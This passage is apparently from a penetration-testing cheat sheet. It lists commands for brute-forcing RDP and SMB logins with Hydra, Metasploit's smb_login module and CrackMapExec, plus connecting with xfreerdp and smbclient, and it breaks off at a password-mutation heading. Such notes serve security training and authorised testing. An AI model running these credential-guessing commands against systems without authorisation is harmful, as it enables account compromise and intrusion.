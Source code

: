     # usage
    hydra -L <userWordlist> -P <Wordlistpassword> rdp://<Target-IP>
    ```

    ##### xFreeRDP
    ```bash
    xfreerdp /v:<target-IP> /u:<username> /p:<password>
    ```
#### Server Message Block (SMB)
*  responsible for transferring data between a client and a server in local area networks. It is used to implement file and directory sharing and printing services in Windows networks.
    
    ##### Hydra 
    ```bash
    # usage
    hydra -L <userWordlist> -P <Wordlistpassword> smb://<Target-IP>
    ```
    ##### Metasploit 
    ```bash
    msfconsole -q
    
    options 

    # remplir les fichier as PASS ou File 

    use auxiliary/scanner/smb/smb_login

    set user_file <fileName>

    set pass_file <fileName>

    set rhosts <fileName>
    
    run
    ```

    ##### CrackMapExec
    ```bash
    crackmapexec smb <target-IP> -u <user or userlistFile> -p <password or passwordlistFile> --shares
    ```

    ##### SMB Client
    ```bash
    smbclient -U <UserName> \\\\<Target-IP>\\SHARENAME
    ``` 

---

### Password Mutations
#### Generating Rule-based Wordlist
